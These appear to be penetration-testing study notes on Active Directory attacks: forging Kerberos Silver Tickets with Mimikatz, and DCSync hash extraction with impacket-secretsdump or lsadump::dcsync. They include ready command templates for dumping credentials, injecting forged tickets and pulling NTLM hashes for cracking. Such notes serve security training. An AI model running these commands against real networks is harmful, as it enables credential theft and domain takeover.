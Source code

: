 ### Silver Tickets

Privileged Account Certificate (PAC) validation is an optional verification process the SPN application does with the Domain Controller. This validates any user attempting to authenticate to the SPN app with the DC, as well as their roles.

This is usually disabled, so we can write our own *Silver Tickets* which let us declare any roles and permissions we want when authenticating to the service.

What is needed?
- SPN password hash (NTLM hash of service user account)
    - Use Mimikatz `privilege::debug` and `sekurlsa::logonPasswords` on a machine where the SPN app account has a session and you have administrative access to
- Domain SID
     - `whoami /user`, omit the RID (last set of digits usually) to get the Domain SID
- Target SPN

Can then use Mimikatz to forge a Silver Ticker and inject into memory for subsequent use in authenticating to services.

```
# /ptt for pass-the-ticket - injects forged Silver Ticket into memory
# /service depends on the protocol of the SPN application e.g. http

C:\> kerberos::golden /sid:<DOMAIN_SID> /domain:<TARGET_DOMAIN> /ptt /target:<TARGET> /service:<SPN_PROTOCOL> /rc4:<SPN_PASSWORD_HASH> /user:<DOMAIN_USER>


# To confirm ticket is in memory - check Group Ids for associated privileges (500 = Local admin, 512 = Domain admin etc.)

C:\> klist 
```

Before 11/10/2022, it was possible to forge Golden Tickets and Silver Tickets for users who do not exist within the domain. Microsoft issued a security patch to ensure the PAC_REQUESTOR is validated by a DC provided that the client and KDC are in the same domain.

### Dcsync Attack

In prod environments, usually more than one Domain Controller for redundancy.

Must be synced, and it does this by replication.

There are no checks on who the requester is for replication so we can exploit this by obtaining credential data like NTLM hashes via requesting for replication.

This requires the following rights which are usually covered under **Domain Administrator**, **Enterprise Administrators** and other **Administrator** accounts:
- *Replicating Directory Changes*
- *Replicating Directory Changes All*
- *Replicating Directory Changes in Filtered Set*

KALI: Can use `impacket-secretsdump` to obtain hashes

```
impacket-secretsdump -just-dc-user <TARGET_USERNAME> <TARGET_DOMAIN>/<USER_WITH_RIGHTS>:<USER_WITH_RIGHTS_PASSWORD>@<TARGET_DOMAIN_CONTROLLER>
```

WINDOWS: Can use Mimikatz' `lsadump::dcsync` to obtain hashes

```
lsadump::dcsync /user:<DOMAIN>\<USER>
```

THEN plug into Hashcat for cracking.